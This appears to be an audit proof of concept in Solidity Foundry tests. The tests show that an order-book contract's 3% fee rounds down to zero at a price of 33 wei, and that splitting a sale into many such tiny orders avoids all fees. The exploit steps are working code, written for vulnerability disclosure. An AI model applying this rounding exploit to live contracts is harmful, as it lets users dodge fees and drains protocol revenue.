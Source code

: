 ```solidity
    }

    /// @notice This test proves that a single order with a low price (e.g., 33 wei of USDC)
    ///         results in a calculated fee of zero, allowing a trade to occur fee-free.
    function test_PoC_SingleOrderFeeEvasion() public {
        // A price of 33 will result in a fee calculation of (33 * 3) / 100, which rounds down to 0.
        uint256 exploitablePrice = 33;
        
        // --- Execution ---
        vm.startPrank(seller);
        weth.approve(address(book), 1e18);
        uint256 orderId = book.createSellOrder(address(weth), 1e18, exploitablePrice, 1 days);
        vm.stopPrank();

        uint256 feesBefore = book.totalFees();
        assertEq(feesBefore, 0, "Initial fees should be zero");

        vm.startPrank(buyer);
        usdc.approve(address(book), exploitablePrice);
        book.buyOrder(orderId);
        vm.stopPrank();

        // --- Assertion ---
        uint256 feesAfter = book.totalFees();
        console2.log("Price per order:", exploitablePrice);
        console2.log("Protocol fees collected for this trade:", feesAfter - feesBefore);

        // The key assertion: The protocol failed to collect any fee for this transaction.
        assertEq(feesAfter, 0, "VULNERABILITY: Protocol should have collected a fee, but it rounded down to zero.");
    }

    /// @notice This test demonstrates how an attacker can exploit the rounding error repeatedly
    ///         by splitting a large sale into multiple small, fee-free orders, causing
    ///         a cumulative loss of revenue for the protocol.
    function test_PoC_CumulativeFeeLoss() public {
        uint256 numOrders = 20;
        uint256 exploitablePrice = 33; // This price results in a fee of 0
        
        // --- Execution ---
        for (uint256 i = 0; i < numOrders; i++) {
            vm.startPrank(seller);
            weth.approve(address(book), 1e17); // Sell 0.1 WETH per order
            uint256 orderId = book.createSellOrder(address(weth), 1e17, exploitablePrice, 1 days);
            vm.stopPrank();

            vm.startPrank(buyer);
            usdc.approve(address(book), exploitablePrice);
            book.buyOrder(orderId);
            vm.stopPrank();
        }

        // --- Assertion ---
        uint256 totalFeesCollected = book.totalFees();
        
        console2.log("Number of fee-free orders processed:", numOrders);
        console2.log("Total fees collected by protocol:", totalFeesCollected);

        // The key assertion: After 20 trades, the protocol has still earned nothing.
        assertEq(totalFeesCollected, 0, "VULNERABILITY: Protocol revenue remains zero after multiple trades due to rounding exploit.");
    }
```
